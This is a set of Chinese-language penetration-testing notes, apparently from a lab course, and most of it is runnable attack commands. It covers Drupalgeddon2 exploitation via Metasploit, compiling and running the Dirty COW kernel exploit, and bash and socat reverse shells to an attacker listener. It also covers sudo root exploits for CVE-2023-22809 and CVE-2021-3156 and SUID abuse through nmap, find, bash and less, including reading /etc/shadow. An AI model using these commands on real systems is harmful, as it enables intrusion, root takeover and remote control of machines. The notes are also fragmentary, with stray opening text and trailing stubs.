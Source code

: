 注册表修复工具：ccleaner

==============================================================================================================================
脏牛靶机
kali:
nmap   IP地址  -p-
发现端口，访问 http://xxx:1898
发现Drupal漏洞可利用

msfconsole
search Drupal
use exploit/unix/webapp/drupal_drupalgeddon2 
show options
set rhosts 10.0.0.5
set rport 1898
run

漏洞利用成功，建立会话！
8、输入shell进入命令行；使用python命令进入交互式模式：
`shell`
`python -c 'import pty; pty.spawn("/bin/bash")'`

whoami
uname -a 


上传Dirty.cpp到kali的/var/www/html，然后通过shell:
wget http://IP/Dirty.cpp 或者 curl http://IP/Dirty.cpp -o Dirty.cpp

编译脚本
执行编译好的脚本文件：
.ccp的文件在Linux系统中无法直接利用，因此需要编译
g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow Dirty.cpp -lutil
命令注释：
-Wall 一般使用该选项，允许发出GCC能够提供的所有有用的警告
-pedantic 允许发出ANSI/ISO C标准所列出的所有警告
-O2编译器的优化选项的4个级别，-O0表示没有优化,-O1为缺省值，-O3优化级别最高
-std=c++11就是用按C++2011标准来编译的
-pthread 在Linux中要用到多线程时，需要链接pthread库
-o dcow gcc生成的目标文件,名字为dcow


执行编译好的脚本文件：
./dcow -s
whoami

脏牛2.0的利用：https://www.cnblogs.com/nanhe7/articles/15983002.html

总结：如果可以避免，请不要使用内核漏洞提权。 如果使用它，可能会使计算机崩溃或使
其处于不稳定状态。因此，内核漏洞利用应该是最后的手段。
1.远程主机可能会崩溃，因为许多公开可用的内核漏洞利用都不十分稳定。
2.您可能会成为root用户，然后使系统崩溃。
3.漏洞利用可能会留下痕迹/日志。

==============================================================================================================================


hao.php

bash反弹
同样的本地物理机使用nc监听：
`nc -vv -l -p 8000`
-vv表示显示详细信息
-l表示本地监听
-p指定监听端口

使用菜刀命令行模式或者webshell命令行模式在目标机器，执行命令：
==bash  #进入bash命令==
==bash -i >& /dev/tcp/10.0.0.1/8000 0>&1  #执行反弹操作==


bash -i    ：    打开一个交互式的bash shell
/dev/tcp/IP/PORT    ： /dev/tcp/是Linux中的一个特殊设备文件（Linux一切皆文件），实际这个文件是不存在的，它只是 bash 实现的用来实现网络请求的一个接口。 
0>&1  : 将输入重定向到标准输出，为了确保命令执行后的输入被正确的传回攻击机

其实以上bash反弹一句完整的解读过程就是：
bash产生了一个交互环境与本地主机主动发起与目标主机8000端口建立的连接（即TCP 8000 会话连
接）相结合，然后在重定向个Tcp 8080会话连接，最后将用户键盘输入与用户标准输出相结合再次重定向给一个标准的输出，即得到一个bash 反弹环境。

当然Linux反弹shell的方式不止这两种，还有其他方式，但是我们记住这两个已经够用了：
==1，是利用木马的功能去反弹，本地用NC进行监听。（冰蝎去连接木马的话是自带反弹功能）==
==2，是利用bash命令去反弹，本地使用NC去监听。==

附录：
反弹shell生成网址：
https://forum.ywhack.com/shell.php


nc -lvvp 6666 
cat < /dev/tcp/192.168.42.132/6666

nc -lvvp 6666 
echo hello > /dev/tcp/192.168.42.132/6666

`socat tcp-connect:10.0.0.1:2233 exec:'bash -li',pty,stderr,setsid,sigint,sane`


==============================================================================================================================
**==Linux_sudo提权==**

sudo 允许系统管理员将权限委托给某些用户(或用户组),能够以root用户或其他用户身份运行部分(或
全部)命令。
sudo的提权原理是通过配置文件（/etc/sudoers）来授权，这个文件定义了那些用户可以使用sudo，以及可以执行哪些命令和以哪个用户的身份执行；sudo命令在执行过程中会读取这个配置文件，如果说sudoers这个配置文件有误或者被篡改，就会导致一些普通用户能够以root身份执行命令导致危害！

sudo提权演示两个编号的漏洞：CVE-2023-22809和CVE-2021-3156

一、漏洞CVE-2023-22809
==漏洞影响的版本:
sudo: 1.8.0~1.9.12p1

1，首先查看目标Linux服务器的的SUDO命令的版本
`sudo -V`
`或`
`sudo --version`


2，在命令行进入对方/tmp目录，上传EXP脚本：SUDO-EXP.sh
sudo 允许系统管理员将权限委托给某些用户(或用户组),能够以root用户或其他用户身份运行部分(或
全部命令。

3，给脚本文件给上最高权限：777,然后利用bash命令或者直接./执行
`chmod 777 SUDO-EXP.sh`
`./SUDO-EXP.sh`


二、漏洞CVE-2021-3156
这个漏洞被披露于2021年1月26日。漏洞的载体是我们常用的sudo命令。当sudo通过-s或-i命令行选
项在shell模式下运行命令时，它将在命令参数中使用反斜杠转义特殊字符。但使用-s或-i标志运行
sudoedit时，实际上并未进行转义，从而可能导致缓冲区溢出。因此只要存在sudoers文件（通常
是/etc/sudoers），攻击者就可以使用本地普通用户利用sudo获得系统root权限。

漏洞影响版本：
sudo: 1.8.2 - 1.8.31p2
sudo: 1.9.0 - 1.9.5p1

具体利用步骤：
1，`sudo -V`
2，切换到/tmp目录，在/tmp目录新建一个文件夹并进入新建的文件夹中
mkdir 1
cd 1
3，切换到新建得目录，上传对应得EXP脚本（CVE-2021-3156-main）
4，make
5，./sudo-hax-me-a-sandwich
.
脚本运行之后我们输入whoami检查
成功提权到root！





==============================================================================================================================

**==Linux_SUID提权==**

SUID是什么？
是一种特殊权限，设置了SUID的程序文件，在用户执行该程序时，用户的权限是该程序文件属主的权限。
例如程序文件的属主是root，那么执行该程序的用户就将暂时获得root账户的权限。
为什么要给Linux二进制文件设置这种权限呢？
例如，程序ping命令其实是需要root权限才能打开网络套接字，但执行该程序的用户通常都是由普通用户，所以这时root账户给ping命令设置一个SUID权限，那么所有的普通用户在执行这个命令的时候，都会暂时拥有root账户的权限（相当于古代皇帝给将军的虎符，手持虎符就可以调用军队）攻击者可以利用这个SUID权限来达到执行root权限的目的。



SUID提权具体利用步骤：
先在本地查找符合条件的文件，使用以下三个命令：
==find / -user root -perm -4000 -print 2>/dev/null==
==find / -perm -u=s -type f 2>/dev/null==
==find / -user root -perm -4000 -exec ls -ldb {} \;==
输入命令之后，可以查看当前主机哪些文件或者命令被设置了SUID权限。


==一般常用于SUID提权的文件有==：
Nmap
nmap命令的利用：
较旧版本的Nmap（2.02至5.21）带有交互模式，从而允许用户执行shell命令。由于Nmap位于上面使用root权限执行的二进制文件列表中，因此可以使用交互式控制台来运行具有相同权限的shell。

1、find / -user root -perm -4000 -print 2>/dev/null
2、chmod +s /usr/bin/nmap
3、可以使用下命令进入nmap交互模式
nmap --interactive
4、执行命令后会返回一个shell
接着输入：!sh
即可提权为root

Vim
Vim命令的利用：
Vim的主要用途是用作文本编辑器。 但是，如果以SUID运行，它将继承root用户的权限，因此可以读取系统上的所有文件
vim /etc/shadow
vim /etc/passwd


find
1、find / -user root -perm -4000 -print 2>/dev/null
2、chmod +s /usr/bin/find
3、touch test
`find test -exec whoami  \;`
`find test -exec useradd bbb \;`

Bash
1、find / -user root -perm -4000 -print 2>/dev/null
2、chmod +s /usr/bin/find
3、bash -p
此时可以直接弹出交互式命令行以root的身份去执行一些操作了

More

Less
less命令的利用：
当发现less命令具有SUID权限时，可直接使用命令：
less /etc/passwd
!/bin/sh

Nano
cp








==============================================================================================================================

